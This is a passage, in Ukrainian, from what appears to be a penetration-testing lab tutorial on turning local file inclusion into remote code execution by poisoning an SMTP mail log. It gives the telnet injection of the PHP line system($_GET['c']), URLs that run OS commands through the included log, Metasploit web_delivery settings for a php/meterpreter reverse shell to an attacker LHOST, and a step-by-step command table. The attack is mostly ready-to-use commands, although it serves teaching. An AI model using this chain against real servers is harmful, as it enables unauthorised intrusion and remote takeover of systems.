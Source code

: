 Для підтвердження працездатності RCE виконується проста команда ОС через параметр c.

* **Дія:** Виконання команди ifconfig.  
* **URL (Приклад):**  
```
192.168.1.107/lfi/lfi.php?file=/var/log/mail.log\&c=ifconfig
```
* **Очікуваний Результат:** Веб-сторінка відображатиме вивід команди ifconfig. Це підтверджує, що PHP-код system($\_GET\['c'\]); був успішно виконаний, а RCE досягнуто.1

### **5.2. Генерація Зворотньої Оболонки (Reverse Shell)**

Для отримання постійного, інтерактивного доступу до скомпрометованої системи використовується Metasploit Framework.

* **Модуль та Пейлоад:** Використовується модуль exploit/multi/script/web\_delivery з пейлоадом php/meterpreter/reverse\_tcp.1 Цей модуль зручний, оскільки він генерує короткий, часто base64-закодований, скрипт, який ідеально підходить для передачі через URL-параметр.  
* Команди Metasploit (Приклад):  
  Необхідно налаштувати локальну адресу (LHOST) та порт (LPORT) для отримання зворотного з'єднання:  
```Bash  
  use exploit/multi/script/web\_delivery  
  set target 1  
  set payload php/meterpreter/reverse\_tcp  
  set lhost 192.168.1.109  
  set lport 8888  
  exploit
```

### **5.3. Фінальна Експлуатація та Отримання Сесії Meterpreter**

Після генерації Metasploit-пейлоаду, цей код використовується як значення для параметра c у LFI-запиті.

* **Дія:** Включення отруєного логу з Meterpreter-пейлоадом.  
* \*\*URL (Приклад):  
```  
192.168.1.107/lfi/lfi.php?file=/var/log/mail.log\&c=\<PASTED\_MALICIOUS\_CODE\>
```
* **Очікуваний Результат:** Metasploit-консоль отримує вхідне з'єднання, і зловмисник отримує сесію meterpreter на цільовій машині.1

**Зведення Кроків Експлуатації та Команд**

| Етап Атаки | Команда / URL-Запит | Призначення | Джерело |
| :---- | :---- | :---- | :---- |
| 1\. Розвідка SMTP | nmap \-p25 192.168.1.107 | Перевірка доступності SMTP | 1 |
| 2\. Перевірка LFI | http://target/lfi.php?file=/etc/passwd | Верифікація уразливості включення файлів | 1 |
| 3\. Ін'єкція PHP | telnet 192.168.1.107 25 / RCPT TO:\<?php system($\_GET\['c'\]);?\> | Отруєння лог-файлу | 1 |
| 4\. Тест RCE | http://target/lfi.php?file=/var/log/mail.log\&c=ifconfig | Виконання тестової команди ОС | 1 |
| 5\. Reverse Shell | Metasploit web\_delivery / ...\&c=\<payload\> | Отримання інтерактивної оболонки (Meterpreter) | 1 |
